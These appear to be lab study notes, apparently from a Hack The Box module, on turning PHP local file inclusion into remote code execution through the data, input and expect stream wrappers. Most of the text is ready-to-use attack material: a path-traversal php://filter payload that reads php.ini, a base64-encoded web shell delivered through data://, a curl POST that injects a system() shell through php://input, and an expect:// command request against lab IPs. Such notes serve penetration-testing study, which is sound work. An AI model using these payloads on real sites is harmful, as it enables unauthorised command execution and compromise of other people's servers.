 ### Data Wrapper
The [data](https://www.php.net/manual/en/wrappers.data.php) wrapper can be used to include external data, including PHP code. However, the data wrapper is only available to use if the (`allow_url_include`) setting is enabled in the PHP configurations

PHP configuration file found at (`/etc/php/X.Y/apache2/php.ini`) for **Apache**
PHP configuration file found at  (`/etc/php/X.Y/fpm/php.ini`) for Nginx

We try to read the config file using LFI like so
```bash
php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini
```

```bash
adot8@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP' | base64 -d | grep allow_url_include

allow_url_include = On
```

With `allow_url_include` enabled, we can proceed with our `data` wrapper attack

```bash
echo '<?php system($_GET["cmd"]); ?>' | base64
```

```bash
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```

### Input Wrapper
Similar to the `data` wrapper, the [input](https://www.php.net/manual/en/wrappers.php.php) wrapper can be used to include external input and execute PHP code. The difference between it and the `data` wrapper is that we pass our input to the `input` wrapper as a POST request's data. So, the vulnerable parameter must accept POST requests for this attack to work. Finally, the `input` wrapper also depends on the `allow_url_include` setting, as mentioned earlier

```bash
curl -s -X POST --data '<?php system($_REQUEST["cmd"]); ?>' "http://94.237.56.156:53371/index.php?page==php://input&cmd=id" | grep uid
```

### Expect Wrapper
We may utilize the [expect](https://www.php.net/manual/en/wrappers.expect.php) wrapper, which allows us to directly run commands through URL streams. Expect works very similarly to the web shells we've used earlier, but don't need to provide a web shell, as **it is designed to execute commands**.

`extension=expect` must be present within the php config file

```bash
php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini
```

```bash
adot8@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O=' | base64 -d | grep expect
extension=expect
```

Exploit
```bash
curl -s "http://10.10.10.10/index.php?language=expect://id"
```